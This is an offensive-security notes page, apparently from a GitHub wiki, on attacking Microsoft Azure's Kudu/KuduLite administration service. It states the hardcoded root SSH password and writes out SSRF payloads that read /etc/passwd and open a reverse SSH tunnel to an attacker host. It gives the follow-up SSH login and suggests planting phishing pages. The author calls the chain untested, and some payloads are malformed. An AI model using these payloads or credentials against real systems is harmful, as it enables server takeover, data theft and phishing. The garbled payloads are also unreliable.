# Exploits

Most Azure exploits are around OWASP Top 10. They are particularly vulnerable to SSRF exploits, broken authentication and confidential information leakages.

Typically these vulnerabilities are found with additional modules applied to the baseline builds. This is typical in platform providers where the majority of work is done for the devs. Additional modules are added, often by third parties, and such code is often insecure and can be exploited. If you find additional modules, running typical secruity researcher exercises such as creating docker containers where analysing logs and listening on local ports is possible.

We have a few exploits below that have been reported for Microsoft Azure Services.

# Kudu/KuduLite Exploit

The Microsoft Azure administration is provided by an open source project called Kudu and the brother of this is KuduLite. These services ultimately offer administration over SSH which use hardcoded credentials for root with the password Docker. Although SSH is not usually offered externally, a SSRF exploit may allow attackers to attack the local SSH portoffered over 2222.

So we know the creds, but how are we going to attack an SSH port we can't see externally? Well the Kudu API contains a Server Side Request Forgery (SSRF) exploit we can use to attack the port. The node may send requests to the KuduLite API without access controls. Attacking VFS API usually found around /api/vfs we can ask for a path and send a malicious command. We are essentially looking for an endpoint making a get request such as below:
 
```/ssrf_post.php?path=8.8.8.8:8181/api/vfs/site/wwwroot/```

We can pass a command to the api by modifiying the script as follows:

```/ssrf_post.php?path=8.8.8.8:8181/command&parameter={%27command%27:%27cat%20/etc/passwd%27}```

Warning, this section is all academic and in theory as the research paper hasn't moved to an exploit at this point. This should work in theory, but hasn't been tested.

This payload will display /etc/passwd, and give us some users. Nice right! But we could potentially use this to create a tunnel to our host machine. The idea is here, we generate a remote port forward by creating an SSH tunnel back to our SSH server. We can then just login into the SSH port using this forward. Here is the payload I would attempt.

```/ssrf_post.php?path=8.8.8.8:8181/command&paramter=%27command%27:%27:%27ssh%20-R%202222:8.8.8.9:2222%20xfow@8.8.8.9%27}```

Then we just SSH into our local port using their creds.

```ssh root@localhost -p 2222```

Enter the password Docker, and technically we should be in. We will be in in a limited shell as this is how Kudu and KuduLite works, but some control of the application should be possible, and we can search for common priv esc techniques to get further.

If this payload hasn't worked, we can still potentially add pages to the site that we control. Why not try creating a phishing page which sends requests to a web server we control? Could work, there are plenty of others and the implications of SSRF exploits won't be used here.

Here is a link to the original creator of this exploit:

https://www.intezer.com/blog/malware-analysis/kud-i-enter-your-server-new-vulnerabilities-in-microsoft-azure/

